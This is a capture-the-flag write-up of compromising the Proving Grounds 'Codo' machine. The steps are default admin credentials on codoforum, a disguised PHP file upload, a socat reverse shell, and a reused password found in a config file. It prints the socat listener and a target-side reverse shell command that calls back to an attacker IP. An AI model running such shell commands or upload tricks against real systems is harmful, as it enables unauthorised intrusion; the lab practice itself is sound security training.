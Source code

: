 # PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.
### Write up - Kaib3r
### Completion date - 29/03/2024


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 | ![ImgPlaceholder](img/codo-image-1.png) |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 | ![ImgPlaceholder](img/codo-image-2.png) | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 | ![ImgPlaceholder](img/codo-image-3.png) |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target: ```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444```` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 | ![ImgPlaceholder](img/codo-image-4.png) |

| Lessons Learnt: | |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files. |
| 3. | Patch applications regularly. |

